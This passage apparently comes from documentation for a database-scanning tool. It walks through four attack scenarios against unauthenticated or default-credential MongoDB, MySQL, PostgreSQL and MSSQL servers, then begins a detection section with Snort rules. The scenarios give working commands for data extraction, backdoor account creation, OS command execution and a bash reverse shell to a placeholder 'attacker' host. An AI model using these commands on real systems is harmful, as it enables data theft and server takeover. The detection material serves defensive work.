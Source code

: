### Attack Scenarios

**Scenario 1: MongoDB No Auth → Data Exfiltration**
```
1. DbSeek discovers: MongoDB 192.168.1.52, no auth required
2. Enumeration reveals databases: admin, config, user_db, financial_db
3. Connection: mongo --host 192.168.1.52
4. Extraction:
   use financial_db
   db.transactions.find()
   db.accounts.find()
5. Impact: Complete financial data breach
```

**Scenario 2: MySQL Blank Root → Backdoor Creation**
```
1. DbSeek discovers: MySQL 192.168.1.50, root:(blank)
2. Connection: mysql -h 192.168.1.50 -u root
3. Backdoor creation:
   CREATE USER 'backdoor'@'%' IDENTIFIED BY 'SecretPass123';
   GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';
4. Persistence: Backdoor account for future access
5. Impact: Long-term database compromise
```

**Scenario 3: PostgreSQL Trust Auth → Command Execution**
```
1. DbSeek discovers: PostgreSQL 192.168.1.51, postgres:(blank)
2. Connection: psql -h 192.168.1.51 -U postgres
3. OS command execution:
   COPY (SELECT '') TO PROGRAM 'id > /tmp/output.txt';
4. Reverse shell:
   COPY (SELECT '') TO PROGRAM 'bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"';
5. Impact: Database server compromise + OS access
```

**Scenario 4: MSSQL SA Account → xp_cmdshell**
```
1. DbSeek discovers: MSSQL 192.168.1.53, sa:Password123
2. Connection: sqlcmd -S 192.168.1.53 -U sa -P Password123
3. Enable xp_cmdshell:
   EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
4. Command execution:
   EXEC xp_cmdshell 'whoami';
   EXEC xp_cmdshell 'net user backdoor Pass123! /add';
5. Impact: Windows server compromise
```

## Detection & Defense

### Network Detection

**IDS Signatures**:
```snort
# Sequential database port scanning
alert tcp $EXTERNAL_NET any -> $HOME_NET [3306,5432,1433,27017,6379] (
    msg:"Database port scanning from single source";
    flags:S;
    threshold:type threshold, track by_src, count 5, seconds 60;
    sid:3000300;
)

# Multiple failed authentication attempts
alert tcp any any -> any 3306 (
    msg:"Multiple MySQL authentication failures";
    content:"Access denied for user";
```